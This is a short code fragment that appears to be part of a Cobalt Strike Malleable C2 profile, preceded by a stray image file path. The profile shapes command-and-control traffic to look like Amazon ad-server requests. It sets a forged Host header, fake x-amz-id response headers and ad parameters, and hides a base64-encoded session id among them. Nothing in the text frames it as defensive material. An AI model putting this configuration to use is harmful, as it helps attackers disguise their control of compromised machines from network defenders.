 ```

set uri "/N4215/adj/amzn.us.sr.aps";

client {

header "Accept" "*/*";

header "Content-Type" "text/xml";

header "X-Requested-With" "XMLHttpRequest";

header "Host" "www.amazon.com";

parameter "sz" "160x600";

parameter "oe" "oe=ISO-8859-1;";

id {

parameter "sn";

}

parameter "s" "3717";

parameter "dc_ref" "http%3A%2F%2Fwww.amazon.com";

output {

base64;

print;

}

}

server {

header "Server" "Server";

header "x-amz-id-1" "THK9YEZJCKPGY5T42OZT";

header "x-amz-id-2" "a21JZ1xrNDNtdGRsa219bGV3YW85amZuZW9zdG5rZmRuZ2tmZGl4aHRvNDVpbgo=";

header "X-Frame-Options" "SAMEORIGIN";

header "x-ua-compatible" "IE=edge";

output {

print;

}

}

}

```
